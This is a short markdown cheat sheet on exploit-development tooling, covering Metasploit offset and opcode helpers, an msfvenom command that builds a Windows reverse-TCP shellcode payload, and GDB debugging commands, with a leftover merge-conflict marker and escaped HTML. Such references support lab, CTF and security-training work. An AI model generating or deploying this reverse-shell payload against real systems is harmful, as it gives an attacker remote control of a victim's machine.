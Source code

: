 # Exploiting Tools

## Metasploit

```
pattern_create.rb -l 3000   #Length
pattern_offset.rb -l 3000 -q 5f97d534   #Search offset
nasm_shell.rb
nasm> jmp esp   #Get opcodes
msfelfscan -j esi /opt/fusion/bin/level01
```

### Shellcodes

```
msfvenom /p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> [EXITFUNC=thread] [-e x86/shikata_ga_nai] -b "\x00\x0a\x0d" -f c
```

## GDB

### Install

```
apt-get install gdb
```

### Parameters

**-q** --> No show banner\
**-x \<file>** --> Auto-execute GDB instructions from here\
**-p \<pid>** --> Attach to process

#### Instructions

<<<<<<< HEAD
&gt; **disassemble main** --&gt; Dissasemble the function  
&gt; **disassemble 0x12345678**  
&gt; **set disassembly-flavor intel**  
&gt; **set follow-fork-mode child/parent** --&gt; Follow created process  
&gt; **p system** --&gt; Find the address of the system function  
&gt; **help**  
&gt; **quit**

&gt; **br func** --&gt; Add breakpoint to function  
&gt; **br \*func+23**  
&gt; **br \*0x12345678  
&gt; del NUM** --&gt; Delete that number of br  
&gt; **watch EXPRESSION** --&gt; Break if the value changes

**&gt; run** --&gt; Execute  
**&gt; start** --&gt; Start and break in main  
&gt; **n/next** --&gt; Execute next instruction \(no inside\)  
&gt; **s/step** --&gt; Execute next instruction  
&gt; **c/continue** --&gt; Continue until next breakpoint
